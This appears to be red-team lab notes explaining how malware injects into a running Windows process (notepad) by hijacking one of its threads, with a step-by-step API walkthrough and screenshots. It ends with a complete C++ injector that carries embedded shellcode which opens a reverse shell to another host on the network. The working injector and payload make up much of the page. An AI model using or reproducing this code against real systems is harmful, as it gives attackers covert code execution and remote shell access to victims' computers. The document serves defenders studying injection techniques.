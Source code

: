 # Injecting to Remote Process via Thread Hijacking

This is a quick lab that looks at the API sequence used by malware to inject into remote processes by leveraging a well known thread hijacking technique.

## Overview

Below lists the API calls that are required to execute this technique:

1. Open a handle `targetProcessHandle` to the process \(notepad in our case\) we want to inject to with `OpenProcess`
2. Allocate some executable memory `remoteBuffer` in the target process with `VirtualAllocEx`
3. Write shellcode we want to inject into the memory `remoteBuffer` \(allocated in step 2\), using `WriteProcessMemory`
4. Find a thread ID of the thread we want to hijack in the target process. In our case, we will fetch the thread ID of the first thread in our target process \(notepad\). We will leverage `CreateToolhelp32Snapshot` to create a `snapshot` of target process's threads and eumerate them with `Thread32Next`. This will give us the thread ID we will be hijacking.
5. Open a handle `threadHijacked` to the thread to be hijacked using `OpenThread`
6. Suspend the target thread - the thread we want to hijack \(`threadHijacked`\) with `SuspendThread`
7. Retrieve the target thread's context with `GetThreadContext`
8. Update the target thread's \(retrieved in step 6\) instruction pointer \(`RIP` register\) to point to the shellcode, which was written into the target process's memory in step 3 using `WriteProcessMemory`
9. Commit the hijacked thread's \(upadated in step 7\) new context with `SetThreadContext`
10. Resume the hijacked thread with `ResumeThread`
11. Enjoy the reverse shell

## Walkthrough

Steps 1-3 of the technique overview are self-explanatory and have been covered in more detail in my notes in [Code & Process Injection](./) section.

In step 4, what happens is that we simply find our target process's \(notepad\) main thread ID as seen in the below image:

![](../../.gitbook/assets/image%20%28737%29.png)

In step 5, a handle to that thread `14100` is opened with:

```cpp
threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, 14100);
```

![](../../.gitbook/assets/image%20%28685%29.png)

In step 6, that thread \(TID `14100`\) with handle `threadHijacked` is suspended with

```cpp
SuspendThread(threadHijacked);
```

![](../../.gitbook/assets/image%20%28734%29.png)

In step 7, we retrieve the hijacked thread's context, which contains CPU registers at that time, among other things. We need to capture the context, since we will be updating the hijacked thread's instruction pointer RIP in steps 8 and 9, and we do not want the hijacked process to crash once we resume it:

![](../../.gitbook/assets/image%20%28609%29.png)

After executing steps 8 and 9, the hijacked thread's RIP is now pointing to the shellcode in our target process notepad.exe memory location `0x000002736ccf0000`:

![](../../.gitbook/assets/image%20%28724%29.png)

![](../../.gitbook/assets/image%20%28563%29.png)

In step 10, once the hijacked thread \(`threadHijacked`\) is resumed, the shellcode is executed and a reverse shell is executed:

![](../../.gitbook/assets/image%20%28581%29.png)

Below shows the technique in action:

![](../../.gitbook/assets/thread-hijacking.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
		"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
		"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
		"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
		"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
		"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
		"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
		"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
		"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
		"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
		"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
		"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
		"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
		"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
		"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
		"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
		"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
		"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
		"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
		"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
		"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
		"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
		"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
		"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
		"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
		"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
		"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
		"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
		"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
		"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
		"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;
	
	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);
	
	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	
	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}
	
	SuspendThread(threadHijacked);
	
	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);
	
	ResumeThread(threadHijacked);
}
```

